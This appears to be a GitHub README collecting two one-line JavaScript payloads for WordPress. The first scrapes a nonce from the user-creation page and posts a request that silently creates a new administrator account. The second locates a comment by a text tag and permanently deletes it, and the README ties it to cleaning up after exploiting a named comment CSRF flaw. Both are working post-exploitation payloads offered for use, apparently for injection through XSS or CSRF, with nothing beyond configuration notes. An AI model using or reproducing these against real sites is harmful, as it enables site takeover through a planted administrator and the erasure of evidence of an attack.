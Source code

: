 # WordPress JS Snippets #

## Create Admin ##
Minimal-ish JS payload to grab a new user nonce and use it to create a new administrator. Configurable bits at the start - `u` is the path to the root of the WordPress install, `un` is the username you want to create, `em` is an email address for the user account, `pw` is the password you want to use.

    u='/path-to-wp-root';un='username';em='em@a.il',pw='passwurd!';nu=u+'/wp-admin/user-new.php';j=jQuery;j.get(nu,function(d){n=d.split("_wpnonce_create-user\" value=\"")[1].split("\"")[0];j.post(nu,{action:'createuser','_wpnonce_create-user':n,'_wp_http_referer':nu,'user_login':un,email:em,'first_name':'','last_name':'',url:'',pass1:pw,'pass1-text':pw,pass2:pw,'pw_weak':'on','send_user_notification':'0',role:'administrator',createuser:'Add New User'});})

## Delete a Comment ##
Minimal-ish JS payload to delete a comment based on a given chunk of text. Use this to automatically clean up a malicious comment (e.g. one exploiting the < 4.9.10, < 5.0.4, < 5.1.1 comment CSRF vulnerability). Grabs the AJAX "Bin" link from the comments screen, swaps **trash** for **delete** in the URL, then issues a GET to the URL twice (first time bins it, second time deletes it). Set `u` to the path to the root of the WordPress install and `t` to some string used in the comment that you want to delete. This only deletes the first comment and only works if the comment is on the first page of results (i.e. a recent comment).

    u='/path-to-wp-root';t='COMMENT-TAG-TO-SEARCH-FOR';j=jQuery;j.get(u+'/wp-admin/edit-comments.php',function(d){dl=d.split(t)[2].split('Spam</a>')[1].split('href=\'')[1].split('\'')[0].replace('trash','delete').replace(/&#038;/g,'&');j.get(dl,function(){j.get(dl);});});

